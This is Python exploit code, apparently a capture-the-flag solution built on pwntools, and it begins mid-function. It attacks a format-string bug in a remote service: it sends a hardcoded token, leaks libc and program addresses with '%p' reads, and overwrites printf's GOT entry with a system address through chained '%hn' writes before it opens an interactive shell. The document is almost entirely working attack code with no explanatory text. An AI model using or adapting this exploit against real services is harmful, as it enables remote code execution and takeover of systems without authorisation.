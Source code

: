```python
	if val == 0:
		return "%" + str(pos) + "$hn"
	else:
		return "%" + str(val) + "c%" + str(pos) + "$hn"

def cont_shoot(poses, vals, prev_size = 0):
	assert len(poses) == len(vals)
	size = len(poses)
	ret = ""
	i = 0
	cur_size = prev_size
	next_overflow = ((prev_size + 0xffff) / 0x10000) * 0x10000
	while i < size:
		assert next_overflow >= cur_size
		num = next_overflow - cur_size + vals[i]
		if num < 0x10000:
			ret += hn(poses[i], num)
			next_overflow += 0x10000
		else:
			num = vals[i] - (cur_size - (next_overflow - 0x10000))
			assert num >= 0
			ret += hn(poses[i], num)
		cur_size += num
		i += 1
	return ret

sh.recvuntil("Enter your token: ")
sh.send("X813373XXXXXX931337")
sh.recvuntil("your nick: ")
sh.sendline("admin")
sh.recvuntil(">> ")
sh.sendline("1")

sh.recvuntil("admin: ")

def format_exp(payload):
	sh.sendline(payload)
	sh.recvuntil("invalid: \\")
	ret = sh.recvuntil('\n')
	sh.recvuntil("admin: ")
	return ret[:-1]

libc_addr = int(format_exp("\\%2$p")[2:], 16) - 0x3ed8c0
print hex(libc_addr)

#mh = libc_addr + e.symbols["__malloc_hook"]
#format_exp('\\' + cont_shoot([mh, mh+2, mh+4], []))
#sh.sendline("\\q" + cyclic(128))
#library function rewrites our input

prog_addr = int(format_exp("\\%9$p")[2:], 16) - 0x1E9D - 5
print hex(prog_addr)

pg = prog_addr + 0x5F68 #printf got table entry
sys = libc_addr + 0x10a38c#e.symbols["system"]

format_exp("\\" + cyclic(7) + 'A' * (8 * 8) + p64(0) * 2 + p64(pg) + p64(pg+2) + p64(pg+4))

sh.sendline('\\' + cont_shoot([25, 26, 27], \
	[sys & 0xffff, (sys >> 0x10) & 0xffff, (sys >> 0x20)], 0x11))

sh.interactive()
```